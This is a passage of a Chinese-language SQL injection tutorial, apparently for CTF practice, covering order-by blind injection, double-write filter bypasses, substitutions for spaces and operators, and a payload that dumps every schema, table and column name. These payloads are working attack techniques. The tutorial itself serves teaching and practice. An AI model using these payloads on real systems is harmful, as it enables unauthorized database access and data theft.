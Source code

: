 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ayksx06sj20uw03pdkz.jpg)

那么写出order by盲注的脚本如下图：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ayl2d362j20x40gw779.jpg)

这里存在过滤，绕过的方法是双写绕过，所以payload看起来不是很清楚，正常的应该是这样的：

image = 79 union distinct **select** 0x{filename} **order by** 1 **desc**

**注意前面的image=79是存在的图片的id，这样order by才可以进行对比实现**

这个注入形式也是和我们上面讲解一样，所以大家可以自己找题目来练习。

 

## 0x05 其他的一些小tips

1、一些等效替代的函数(特殊符号)

字符：

```
空格 <--> %20、%0a、%0b、/**/、 @tmp:=test
and <--> or
'=' <--> 'like' <--> 'in' --> 'regexp' <--> 'rlike' --> '>' <--> '<'

@tmp:=test只能用在select关键字之后，等号后面的字符串随意
```

函数：

字符串截断函数：left()、mid()、**substr**()、substring()
取ascii码函数：**ord**()、ascii()



2、 一次性报所有表明和字段名

(**SELECT* (@) **FROM** (**SELECT**(@:=0x00),(**SELECT** (@) **FROM** (information_schema.columns) **WHERE** (table_schema>=@) **AND** (@)**IN** (@:=**CONCAT**(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ayo757taj20ty0dfgqf.jpg)



3、Subquery returns more than 1 row的解决方法

产生这个问题的原因是子查询多于一列，也就是显示为只有一列的情况下，没有使用limit语句限制，就会产生这个问题，即limt 0,1

如果我们这里的逗号被过滤了咋办？那就使用offset关键字：

limit 1 offset 1

如果我们这里的limit被过滤了咋办？那就试试下面的几种方法：

(1) group_concat(使用的最多)
(2) <>筛选(不等于)
(3) **not in**
(4) DISTINCT
